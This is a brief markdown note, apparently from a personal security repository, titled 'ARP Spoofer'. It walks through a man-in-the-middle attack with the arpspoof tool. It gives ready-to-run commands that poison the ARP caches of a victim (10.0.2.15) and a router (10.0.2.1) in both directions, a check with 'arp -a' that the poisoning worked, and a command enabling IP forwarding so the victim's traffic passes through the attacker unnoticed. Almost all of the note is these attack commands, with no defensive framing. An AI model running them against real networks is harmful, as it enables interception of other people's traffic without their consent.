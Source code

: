 # ARP Spoofer

use `arpspoof`

command: `arpspoof -i <interface> -t <target> <gateway>`

example: `arpspoof -i eth0 -t 10.0.2.15 10.0.2.1`

Let's say the victim is `10.0.2.15`, and the router is `10.0.2.1`.

Open two shells:

- Spoof the target, pretend to be the router: `arpspoof -i eth0 -t 10.0.2.15 10.0.2.1`

- Spoof the router, pretend to be the victim target: `arpspoof -i eth0 -t 10.0.2.1 10.0.2.15`

Meantime at the victime machine, type `arp -a` the router's MAC address will become attack machine's MAC address.

Set ip forwarding so victim machine can access the internet: `sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'`